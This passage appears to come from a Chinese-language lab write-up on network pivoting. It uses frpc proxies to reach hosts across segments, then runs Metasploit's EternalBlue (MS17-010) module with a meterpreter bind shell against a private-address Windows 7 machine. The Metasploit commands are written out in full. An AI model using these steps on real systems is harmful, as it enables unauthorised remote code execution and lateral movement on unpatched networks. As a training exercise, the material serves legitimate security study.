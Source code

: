 解释：

1、原本`Centos:172.31.50.224`就可被外网访问，

2、`Centos`然后安装`frpc客户端`，实现跨网段访问`Centos`的另一个网段：`192.168.111.142`(同时可以访问同一网段下的`Win7-1:192.168.111.131`)

3、`Win7-1`该机器上安装`frpc客户端`（服务端在`Centos`上），实现跨网段访问`Win7-1`的另一个网段：`192.168.201.130`(同时可以访问同一网段下的`Win7-2:192.168.201.131`)



同时可以访问Win7-2:192.168.201.131

![image-20211015115200205](assets/image-20211015115200205.png)



基于代理开启msfdb

```
┌──(kali㉿kali)-[~]
└─$ sudo proxychains msfdb run 
```

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp  #正向shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.201.131
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```
